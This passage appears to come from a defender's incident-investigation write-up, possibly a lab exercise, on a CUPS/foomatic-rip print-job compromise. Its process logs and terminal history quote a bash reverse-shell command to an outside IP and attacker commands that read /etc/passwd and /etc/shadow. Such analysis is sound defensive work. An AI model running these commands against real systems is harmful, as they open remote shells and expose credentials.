 Next, I see what appears to be the actual print job because this target process command line value matches the orginal command line value and it is the content of a print job.
```
' /bin/sh -e -c pdftops '1' 'root' '10 Important Sales Analysis Reports + 4 Sales Report Templates' '1' ' job-originating-user-name=root Collate PageSize=Letter Duplex=None job-priority=50 job-uuid=urn:uuid:f718709f-495a-37d0-6e01-b120fdc4da30 cups-browsed job-originating-host-name=localhost date-time-at-creation= date-time-at-processing= time-at-creation=1728043954 time-at-processing=1728043954 job-impressions-completed=0' '/var/spool/cups/d00001-001'
```

Next, we have another ghostscript command that is printing hello to `/dev/null`. I assume the TA had a way of verifying if that was successful as they sent output to the bit bucket to hid their tracks.
```
sh -c gs -dQUIET -dSAFER -dNOPAUSE -dBATCH -dNOMEDIAATTRS -sDEVICE=ps2write -sstdout=%stderr -sOutputFile=/dev/null -c '(hello) print flush' 2>&1
```

Lastly, we can see their efforts to create a reverse shell. Interestingly, this is the only process of `foomatic-rip` that has a parent process of `foomatic-rip` instead of `cups`.
```
/bin/sh -e -c nohup bash -c "bash -i >& /dev/tcp/18.217.36.165/9001 0>&1"&
```

All of these command executions seem to be triggered when someone tried to print a document called "Important Sales Analysis Reports". Given the logs have identical values `date-time-at-processing= time-at-creation` I assume one print job kicked off all commands.

### Endpoint Terminal History
Switching over to terminal history section we can confirm the reverse shell worked, and what commands the TA ran after getting a shell on their system.
![[Pasted image 20241014150651.png]]
Here are all the commands including starting with the ghostscript test commands.
```
Oct 4 2024 12:12:34 - sh -c gs -dNODISPLAY -dNOSAFER -dNOPAUSE -q -c '/pdf..
Oct 4 2024 12:12:36 - /bin/sh -e -c pdftops '1' 'root' '10 Important Sales Analysis Reports + 4 Sales Report Templates' '1' 'job-originating-user-name=root Collate PageSize=Letter Duplex=None job-priority=50 job-uuid=urn:uuid:f718709f-495a-37d0-6e01-b120fdc4da30 cups-browsed job-originating-host-name=localhost date-time-at-creation= date-time-at-processing= time-at-creation=1728043954 time-at-processing=1728043954 job-impressions-completed=0' '/var/spool/cups/d00001-001'
Oct 4 2024 12:12:39 - sh -c gs -dQUIET -dSAFER -dNOPAUSE -dBATCH -dNOMEDIAATTRS -sDEVICE=ps2write -sstdout=%stderr -sOutputFile=/dev/null -c '(hello) print flush' 2>&1
Oct 4 2024 12:12:39 - /bin/sh -e -c nohup bash -c "bash -i >& /dev/tcp/18.217.36.165/9001 0>&1"&
Oct 4 2024 12:12:39 - /bin/sh -e -c nohup bash -c "bash -i >& /dev/tcp/18.217.36.165/9001 0>&1"&
Oct 4 2024 12:12:40 - bash -c bash -i >& /dev/tcp/18.217.36.165/9001 0>&1

# After TA recieved reverse shell
Oct 4 2024 12:12:43 - whoami
Oct 4 2024 12:12:51 - whoami /priv
Oct 4 2024 12:12:59 - ls
Oct 4 2024 12:13:38 - sudo su
Oct 4 2024 12:13:49 - cat /etc/passwd
Oct 4 2024 12:13:59 - cat /etc/shadow
```
